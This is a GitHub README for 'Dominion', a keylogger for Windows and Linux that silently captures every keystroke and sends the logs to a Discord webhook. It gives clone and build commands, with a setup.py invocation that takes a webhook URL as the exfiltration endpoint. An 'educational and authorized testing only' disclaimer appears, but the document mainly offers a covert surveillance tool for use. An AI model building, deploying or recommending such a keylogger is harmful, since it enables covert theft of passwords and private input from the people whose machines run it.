

# Dominion



Dominion is a cross-platform educational keylogger for Red Teams and ethical hacking research.  
It captures keystrokes and sends logs to a private Discord channel using webhooks.

---

## Features

- Logs all keystrokes silently.
- Sends logs to a private Discord webhook.
- Supports Windows EXE (Wine) and Linux binary.
- Simple automated builder (`setup.py`).

---

## Quick Start

Clone this repository:

```bash
git clone https://github.com/HackScaleTeam/Dominion.git
cd Dominion
```

Run the setup script:

**For Windows EXE (via Wine):**
```bash
python3 setup.py --webhook YOUR_DISCORD_WEBHOOK --interval YOUR_TIME --windows
```

**For Linux binary:**
```bash
python3 setup.py --webhook YOUR_DISCORD_WEBHOOK --interval YOUR_TIME --linux
```

The setup script will:
- Check your environment (Wine/Python)
- Install missing dependencies
- Build the binary to `/dist/`

**Example:**
```bash
python3 setup.py --webhook https://discord.com/api/webhooks/XXXXX/YYYYY --interval YOUR_TIME --windows
```

---

## License

MIT License — see [LICENSE](LICENSE).

---

## Disclaimer

Dominion is for **educational and authorized testing only**.  
Use it only on machines you own or have permission to test.
